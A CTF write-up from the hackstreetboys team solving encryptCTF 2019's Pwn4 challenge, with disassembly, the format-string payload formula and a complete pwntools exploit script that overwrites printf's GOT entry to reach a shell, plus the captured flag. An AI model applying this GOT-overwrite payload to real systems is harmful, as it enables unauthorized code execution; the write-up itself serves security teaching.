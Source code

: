 ```yaml
---
layout: single
title: encryptCTF 2019 Pwn Write-up 5 of 5
excerpt: Last part of my encryptCTF 2019 Pwn write-up series. This challenge tackles format string exploit — overwriting GOT entry to have a program flow control.
date: '2019-04-04T12:26:35.886Z'
classes: wide
categories:
- ctf
- encryptctf
tags:
- pwn
- format string
---
```


| ![First pwn board wipe of the year. hsb represent! ](https://cdn-images-1.medium.com/max/800/1*ycEO30rNNBaEmC9qIWf8VQ.png) |
|:--:|
| First pwn board wipe of the year. hsb represent!  |

### Pwn4 Solution (300 pts.)

> This challenge tackles format string exploit — overwriting GOT entry to have a program flow control.

Challenge description:

> GOT is a amazing series!

Based on the description, it seems that the challenge is all about manipulating GOT. And one known technique that focuses on overwriting GOT entries is format string exploit. Let’s try that exploit on this challenge.

Before we start, let’s do our basic checks on the binary.

![Commands used: `file` and `gdb` `checksec`](https://cdn-images-1.medium.com/max/800/1*PJpYOgnD-kDfw9PNLoFdkw.png)

Again, the file is a `32-bit ELF executable, PIE` and `RelRo` are disabled. Since `RelRo` is disabled, we are guaranteed that we can overwrite `GOT` entries.

Let’s try to run the binary and do a simple format string exploit test.

![Aha! A format string exploit ](https://cdn-images-1.medium.com/max/800/1*-1Mgfdjue5ER9Mdt7qjmxg.png)

> Quick note: You can read up an introduction about format string exploit from this resource: [https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)

We got a successful format string exploit. Let’s disassemble the program using gdb.
```
gef➤  disas main  
Dump of assembler code for function main:  
   0x08048551 <+0>: push   ebp  
   0x08048552 <+1>: mov    ebp,esp  
   0x08048554 <+3>: and    esp,0xfffffff0  
   0x08048557 <+6>: sub    esp,0xa0  
   0x0804855d <+12>: mov    eax,gs:0x14  
   0x08048563 <+18>: mov    DWORD PTR [esp+0x9c],eax  
   0x0804856a <+25>: xor    eax,eax  
   0x0804856c <+27>: mov    eax,ds:0x8049940  
   0x08048571 <+32>: mov    DWORD PTR [esp+0xc],0x0  
   0x08048579 <+40>: mov    DWORD PTR [esp+0x8],0x2  
   0x08048581 <+48>: mov    DWORD PTR [esp+0x4],0x0  
   0x08048589 <+56>: mov    DWORD PTR [esp],eax  
   0x0804858c <+59>: call   0x8048430 <setvbuf@plt>  
   0x08048591 <+64>: mov    DWORD PTR [esp],0x804868c  
   0x08048598 <+71>: call   0x80483f0 <puts@plt> (1) **  
   0x0804859d <+76>: lea    eax,[esp+0x1c]  
   0x080485a1 <+80>: mov    DWORD PTR [esp],eax  
   0x080485a4 <+83>: call   0x80483d0 <gets@plt> (2)**  
   0x080485a9 <+88>: lea    eax,[esp+0x1c]  
   0x080485ad <+92>: mov    DWORD PTR [esp],eax  
   0x080485b0 <+95>: call   0x80483c0 <printf@plt> (3)**  
   0x080485b5 <+100>: lea    eax,[esp+0x1c]  
   0x080485b9 <+104>: mov    DWORD PTR [esp+0x4],eax  
   0x080485bd <+108>: mov    DWORD PTR [esp],0x80486db  
   0x080485c4 <+115>: call   0x80483c0 <printf@plt> (4)**  
   0x080485c9 <+120>: mov    eax,0x0  
   0x080485ce <+125>: mov    edx,DWORD PTR [esp+0x9c]  
   0x080485d5 <+132>: xor    edx,DWORD PTR gs:0x14  
   0x080485dc <+139>: je     0x80485e3 <main+146>  
   0x080485de <+141>: call   0x80483e0 <__stack_chk_fail@plt>  
   0x080485e3 <+146>: leave    
   0x080485e4 <+147>: ret      
End of assembler dump.
```

Based on the disassembled main function, this is the overview of the program flow:  

```
(1) puts() — prints the welcome banner
(2) gets() — asks for a user input
(3) printf() — this is where the exploit occurs
(4) printf() — prints the user input
```

Luckily, there is another built-in function called after the exploit occured. We can overwrite the GOT entry of printf() and wait for `printf() (4)` to be executed.

![0x80498fc is the address of printf@got](https://cdn-images-1.medium.com/max/800/1*nhBy3vZvOOzdSR3-iw8rpA.png)

We already have a plan on where to overwite, but we still need “what to write” and “how to write”.

Let’s proceed with what to write.

We need to look for useful functions on the binary using `radare2`.

![0x0804853d is our `win` function!](https://cdn-images-1.medium.com/max/800/1*AGQCr-rbgEmfXRhdwX8dpQ.png)

Upon inspecting, I saw a function that executes “`system(‘/bin/bash’)`” @ `0x0804853d`. We can consider that as our `WIN` function!

Now, our last problem is how are we going to write `0x0804853d` to `0x80498fc.`

According to the resource link above, we can use “`%n`” to write an integer on a specific address. Using this technique, we can write the integer value of `0x0804853d` to `0x80498fc.`

A magic formula can be used to generate the payload for this.

![](https://cdn-images-1.medium.com/max/800/1*cAoAY3_lvl2FPYktw2EB6g.png)

```
HOB = `0x0804`  
LOB = `0x853d`

addr = `0x80498fc`

offset = ???
```

We still lack the offset for this formula.

We can compute the offset by getting the position of our known input string on the leaked stack. Let’s try to enter the string “AAAA” and leak the stack at the same time.

![Offset: 7](https://cdn-images-1.medium.com/max/800/1*Uc-tFdIDEML_huaf9uxSzQ.png)

We got the offset at 7. The value of `AAAA` in hexadecimal is `0x41414141` which gives us the offset value of 7.

The formula is now complete. Let’s build the payload.

```
HOB = `0x0804`  
LOB = `0x853d`

addr = `0x80498fc`

offset = 7

payload = [`0x80498fc` + 2][`0x80498fc`] + %.[`0x0804`-8]x%[7]$hn + %.[`0x853d`-`0x0804`]x%[7+1]$hn

payload = [`0x80498fe][0x80498fc]` + %.67580x%7$hn + %.32057x%8$hn
```

Sending the payload to the remote server will result to this.

![We got a shell! ](https://cdn-images-1.medium.com/max/800/1*QQ0AwdWIYN3j1VtVBOQM8g.png)

Flag: `encryptCTF{Y0u_4R3_7h3_7ru3_King_0f_53v3n_KingD0ms}`

Sample exploit script:
```
./exploit.py

from pwn import *

r = remote('104.154.106.182', 5678)

printf_got = 0x80498fc  
win_addr = 0x0804853d

offset = 7

# Overwrite printf GOT with win address  
# Payload structure  
# [addr + 2][addr] [0x10804 - 8][offset] [0x853d - 0x804][offset+1]

payload = ""  
payload += p32(printf_got+2)  
payload += p32(printf_got)  
payload += "%.67580x"  
payload += "%{}$hn".format(offset)  
payload += "%.32057x"  
payload += "%{}$hn".format(offset+1)

r.recvuntil('?')  
log.info('Payload formula: [addr+2][addr] + %.[HOB-8]x%[offset]$hn + %.[LOB-HOB]x%[offset+1]$hn')  
log.info('Sending payload...')  
log.info('Writing {} to {} (printf GOT).'.format(hex(win_addr), hex(printf_got)))

r.sendline(payload)  
r.recvuntil('2')  
log.info('Enjoy your shell. ')  
r.interactive()
```

-

— ar33zy

[hackstreetboys](https://hackstreetboys.ph/) aka [hsb] is a CTF team from the Philippines.

Please do like our [Facebook Page](https://www.facebook.com/hackstreetboys/) and Follow us on [Twitter](https://twitter.com/_hackstreetboys), [Medium](https://medium.com/hackstreetboys), and [GitHub](https://github.com/hackstreetboysph).
